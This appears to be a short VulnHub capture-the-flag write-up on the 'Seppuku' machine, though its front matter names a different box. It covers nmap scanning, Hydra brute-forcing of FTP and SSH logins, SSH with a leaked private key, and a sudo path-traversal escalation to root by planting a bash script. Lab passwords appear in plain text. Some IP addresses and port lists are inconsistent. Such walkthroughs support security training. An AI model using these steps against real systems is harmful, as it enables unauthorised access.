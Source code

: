 ```yaml
---
title: WRITE-UP FUNBOX-7 / FUNBOX EASYENUM
date: 2024-08-03 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-up seppuku

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```
![alt text](/assets/img/seppuku/sep_netdiscover.png)
IP: ```192.168.100.17 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.141
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/seppuku/sep_nmap1.png)
![alt text](/assets/img/seppuku/sep_nmap2.png)

*   21 ```ftp``` 
*   22 ```ssh```
*   139-145 ```smb```
*   80-7601-7080-8088 ```http```

![alt text](/assets/img/seppuku/sep_7601_secret.png)
![alt text](/assets/img/seppuku/sep_rsakey.png)

## 2. Post Exploitation
crack ```ftp``` and ```ssh``` password with this credentials using ```hydra```

![alt text](/assets/img/seppuku/sep_ftp.png)

![alt text](/assets/img/seppuku/sep_ssh.png)

user ``` seppuku``` pass ```eeyoree```

## 3. Privilage Escalation

insite we find password of samurai is
```12345685213456!@!@A``` and i use ```sudo -l ``` to get ```root```

![alt text](/assets/img/seppuku/sep_ssh_all.png)

but in ```tanto``` don't have file but he use private key to go ```ssh``` and after recon we have it . 
```
ssh -i private.bak tanto@192.168.100.7 
touch .cgi_bin/bin
echo "/bin/bash" >> .cgi_bin/bin 
chmod 777 .cgi_bin/bin
```
after that i run ```sudo ``` with commnad can run with ```root```

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/
```

![alt text](/assets/img/seppuku/sep_root.png)

